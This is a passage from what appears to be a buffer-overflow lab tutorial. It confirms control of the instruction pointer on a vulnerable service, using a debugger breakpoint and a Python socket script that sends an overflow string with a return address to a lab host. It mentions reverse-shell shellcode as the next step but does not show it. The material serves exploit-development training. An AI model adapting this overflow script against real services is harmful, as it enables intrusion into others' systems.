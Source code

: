 This step is to confirm that the base address that we found via Mona can get us to EIP. Let's restart the debugger and set a break point by entering the first base address:

![Break Point](breakPoint.png)

After that hit F2 to set the break point. When the program crashes, it won't go further than this address. Let's run our Python script:
```Python
#!/usr/bin/python

import socket,sys

buffer = "A"*146 + "\xc3\x14\x04\x08" 
RHOST = "192.168.0.227"
RPORT = 31337

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
After running our ownEIP Python script, we can see that the program crashes at 080414C3 so we own EIP:

![Own EIP](ownEIP.png)

Now, we can move onto the last stage, generating a shellcode and getting a reverse shell back on our Kali machine.

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
